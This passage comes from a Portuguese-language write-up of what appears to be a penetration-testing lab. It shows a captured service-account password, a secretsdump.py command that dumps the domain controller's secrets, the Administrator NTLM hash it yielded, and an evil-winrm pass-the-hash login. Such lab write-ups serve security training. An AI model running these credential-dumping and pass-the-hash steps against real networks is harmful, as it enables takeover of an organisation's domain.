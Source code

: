 > [!ESSA É A PARTE MAIS IMPORTANTE! - Credencial Capturada]
> [*] _SC_SYNC 
> svcBackups@corp.thereserve.loc:q9nzssaFtGHdqUV3Qv6G


**Chegou o momento de aplicar o mesmo processo no controlador de domínio (10.200.89.102), com o objetivo de extrair ainda mais informações sensíveis.**

## 11.2 Conseguindo acesso ao Administrator
Ao executar o `secretsdump.py` novamente, desta vez utilizando as credenciais válidas do DC, conseguimos com sucesso obter a **hash NTLM da conta Administrator**, um passo crucial para a escalada de privilégios e controle do ambiente.

`proxychains -q secretsdump.py corp.thereserve.loc/svcBackups:'q9nzssaFtGHdqUV3Qv6G'@10.200.89.102`

![](img/43330cfed3087b10ee1ed9cb387533f3.png)

> [!Hash do Administrator]
> d3d4edcc015856e386074795aea86b3e

`proxychains -q evil-winrm -i 10.200.89.102 -u Administrator -H d3d4edcc015856e386074795aea86b3e`

![](img/301d1c4d0a403fcb294d7a307c8873fa.png)

## 11.3 Criação de Conta com Privilégios Administrativos
### 11.3.1 `net user local`
